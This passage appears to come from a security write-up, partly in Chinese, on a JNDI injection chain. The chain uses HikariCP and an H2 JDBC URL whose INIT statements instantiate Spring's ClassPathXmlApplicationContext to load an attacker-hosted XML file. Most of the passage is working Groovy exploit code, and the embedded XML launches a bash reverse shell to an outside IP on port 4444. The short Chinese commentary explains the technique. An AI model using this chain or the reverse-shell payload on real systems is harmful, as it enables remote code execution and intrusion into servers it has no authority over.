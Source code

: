 ```plain
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[bash -i >& /dev/tcp/100.109.34.110/4444 0>&1]]></value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
'''

// host the xml on a web server
def server = WebServer.getInstance()
server.serveFile("/exp.xml", content.getBytes())

def xml_url = "http://$server.ip:$server.port/exp.xml"

// invoke URI.create() to create a URI object
list << "SET @uri=URI_CREATE('$xml_url')"
// invoke uri.toString() to transform the type of `xml_url` (from java.lang.String to java.lang.Object) to avoid H2 SQL convert error
// because the return type of INVOKE_METHOD is java.lang.Object
list << "SET @xml_url_obj=INVOKE_METHOD(@uri, 'toString', NULL)"
// instantiate ClassPathXmlApplicationContext
list << "SET @context_clazz=CLASS_FOR_NAME('org.springframework.context.support.ClassPathXmlApplicationContext')"
// the second parameter of INVOKE_CONSTRUCTOR requires java.lang.Object, so we use `xml_url_obj` instead of `xml_url`
list << "CALL INVOKE_CONSTRUCTOR(@context_clazz, @xml_url_obj)"

// use INIT property to execute multi SQL statements, and each statement must be separated by `\;`
def url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=${list.join('\\;')}\\;"

def ref = new Reference("javax.sql.DataSource", "com.zaxxer.hikari.HikariJNDIFactory", null)
ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
ref.add(new StringRefAddr("jdbcUrl", url));

return ref
```

ClassPathXmlApplicationContext 的利用思路很常见了, 在 PostgreSQL JDBC RCE 和 ActiveMQ RCE 中都出现过

需要找到一个能够调用构造函数的静态方法, 即通过 invokeConstructor 实例化 ClassPathXmlApplicationContext 加载 XML 实现 RCE

`org.apache.commons.beanutils.ConstructorUtils#invokeConstructor(java.lang.Class<T>, java.lang.Object)`
